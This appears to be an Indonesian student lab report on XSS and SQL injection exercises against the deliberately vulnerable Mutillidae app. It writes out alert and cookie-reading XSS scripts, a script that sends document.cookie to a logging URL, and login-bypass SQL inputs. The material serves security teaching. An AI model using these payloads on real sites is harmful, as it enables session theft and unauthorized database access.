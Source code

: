 # Lap10_PrakKI_RivaMahyuli_478709

# MODUL 1
Cross site scripting adalah serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi.  Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah.
salah satu jenis Cross site scripting adalah Reflected. Reflected adalah serangan pada aplikasi web yang memanfaatkan celah dalam penanganan input dari pengguna. Dalam serangan ini, skrip berbahaya disisipkan ke dalam permintaan HTTP yang dikirim ke aplikasi web, kemudian disalin atau "direfleksikan" kembali ke halaman yang diberikan kepada pengguna sebagai respons. Ketika pengguna melihat halaman tersebut, skrip berbahaya dieksekusi oleh browser pengguna tanpa disadari, yang dapat mengakibatkan pencurian data sensitif, pengalihan ke situs palsu, atau aksi jahat lainnya. Serangan ini biasanya digunakan untuk mengeksploitasi kekurangan dalam validasi input dan sanitasi data yang dilakukan oleh aplikasi web

Pada praktikum ini kita menggunakan mutillidae. Mutilidae pada Kali Linux menyediakan berbagai contoh kerentanan umum pada aplikasi web, seperti serangan injeksi SQL, cross-site scripting (XSS), cross-site request forgery (CSRF), dan lainnya. Pengguna dapat menggunakan Mutilidae untuk melatih dan meningkatkan pemahaman mereka tentang keamanan aplikasi web, serta menguji teknik dan alat keamanan yang berbeda.

 # Perintah "<script>alert("Halo")</script>" yang dimasukkan ke dalam Hostname/IP Textbox pada Mutilidae XSS Reflected DNS berfungsi sebagai contoh serangan XSS (Cross-Site Scripting). XSS adalah jenis serangan yang memungkinkan penyerang menyisipkan skrip berbahaya ke dalam halaman web yang kemudian dieksekusi oleh browser pengguna.Dalam contoh tersebut, skrip "<script>alert("Halo")</script>" akan dieksekusi oleh browser saat halaman web yang mengandung serangan XSS tersebut dimuat. Hasilnya, akan muncul kotak dialog yang menampilkan pesan "Halo". Serangan XSS semacam ini dapat dimanfaatkan oleh penyerang untuk mencuri informasi pengguna, menyebarkan malware, atau melakukan tindakan jahat lainnya.

# perintah "<script>alert(document.cookie)</script>" dieksekusi pada Mutilidae XSS, hasilnya akan tergantung pada konteks dan kondisi saat skrip dieksekusi.Secara umum, skrip tersebut akan menampilkan nilai cookie dari situs web yang sedang dikunjungi oleh pengguna yang terkena serangan XSS. Cookie adalah file teks yang berisi informasi kecil yang disimpan pada komputer pengguna oleh situs web yang dikunjungi. Informasi yang dapat ada dalam cookie termasuk sesi pengguna, preferensi pengguna, atau data lain yang relevan dengan interaksi dengan situs web

# Perintah "<SCRIPT>document.location='http://localhost/cgi-bin/logit.pl?'+document.cookie</SCRIPT>" adalah contoh serangan XSS (Cross-Site Scripting) yang bertujuan untuk mengeksploitasi kerentanan XSS pada sebuah halaman web. Fungsi dari perintah tersebut adalah untuk mengalihkan atau memperbarui lokasi (URL) halaman web ke "http://localhost/cgi-bin/logit.pl?" yang diikuti oleh nilai cookie dari halaman tersebut menggunakan "document.cookie". Dengan demikian, perintah tersebut mencoba mengirimkan informasi cookie pengguna ke URL yang ditentukan dalam serangan XSS.

# MODUL 2
SQL Injection adalah serangan yang dilakukan dengan menyisipkan kode SQL berbahaya ke dalam input yang diterima oleh aplikasi web yang menggunakan database. Serangan ini bertujuan untuk memanipulasi atau mendapatkan akses tidak sah ke basis data aplikasi tersebut.

# "Single Quote Test" pada form Username di Mutilidae adalah 
salah satu metode untuk menguji kerentanan SQL Injection pada aplikasi tersebut. Pada form Username, dengan memasukkan tanda kutip tunggal (') sebagai input, aplikasi akan mencoba mengeksekusi query SQL menggunakan input tersebut.Jika aplikasi tidak memvalidasi atau menyaring input dengan benar sebelum menggunakannya dalam query SQL, tanda kutip tunggal tersebut dapat mengganggu struktur query dan memungkinkan penyerang untuk menyisipkan kode SQL berbahaya. Misalnya, input seperti "admin' OR '1'='1" dapat mengubah query menjadi "SELECT * FROM users WHERE username='admin' OR '1'='1'", yang mungkin memungkinkan penyerang untuk mengakses data pengguna tanpa otorisasi.Dengan melakukan "Single Quote Test" dan berhasil menyebabkan aplikasi menghasilkan hasil yang tidak diharapkan atau pesan error yang mengungkapkan struktur query, penyerang dapat mengetahui bahwa aplikasi rentan terhadap serangan SQL Injection.

# SQL Injection: By-Pass Password tanpa Username adalah adalah serangan yang sangat serius 

# SQL Injection: Single Quote Test On Password Field
Melakukan "Single Quote Test" pada kolom kata sandi dalam konteks SQL Injection melibatkan menyisipkan karakter tanda kutip tunggal (') sebagai input ke kolom kata sandi sebuah aplikasi untuk menguji potensi kerentanan SQL injection.Tujuan dari pengujian ini adalah untuk mengetahui apakah aplikasi dapat menangani karakter tanda kutip tunggal dengan benar dan melakukan validasi dan sanitasi input yang tepat pada kolom kata sandi. Jika aplikasi gagal menangani karakter tanda kutip tunggal dengan benar, kemungkinan besar aplikasi tersebut rentan terhadap serangan SQL injection.Dengan menyisipkan karakter tanda kutip tunggal ke kolom kata sandi, seorang penyerang dapat mencoba mengganggu sintaks SQL dari query yang mendasarinya dan potensialnya mendapatkan akses tanpa otorisasi ke basis data aplikasi. Sebagai contoh, jika aplikasi membangun query SQL tanpa melakukan sanitasi input dengan benar, input seperti " ' OR 1=1 -- " dapat memanipulasi query agar selalu bernilai benar, melewati verifikasi kata sandi.Perlu diingat bahwa melakukan pengujian SQL Injection tanpa izin yang tepat atau dalam skenario dunia nyata adalah ilegal dan tidak etis. SQL Injection adalah kerentanan keamanan yang serius, dan penting untuk mengamankan aplikasi dengan menerapkan praktik pengkodean yang aman, pengikatan parameter, dan teknik validasi input untuk mencegah serangan semacam itu.




